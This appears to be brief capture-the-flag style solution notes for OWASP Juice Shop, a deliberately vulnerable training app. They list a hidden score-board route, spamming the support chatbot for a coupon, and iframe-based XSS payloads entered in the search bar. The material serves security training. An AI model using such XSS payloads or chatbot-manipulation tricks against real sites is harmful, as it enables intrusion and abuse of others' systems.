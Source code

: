 # OWASP Juice Shop

Score Board
Firefox > Debugger > Search score > found: /score-board

Bully Chatbot
Menu > Support Chat > Keep spamming coupong 

DOM XSS
search bar > <iframe src="javascript:alert(`xss`)">

Bonus Payload
Search bar > <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>

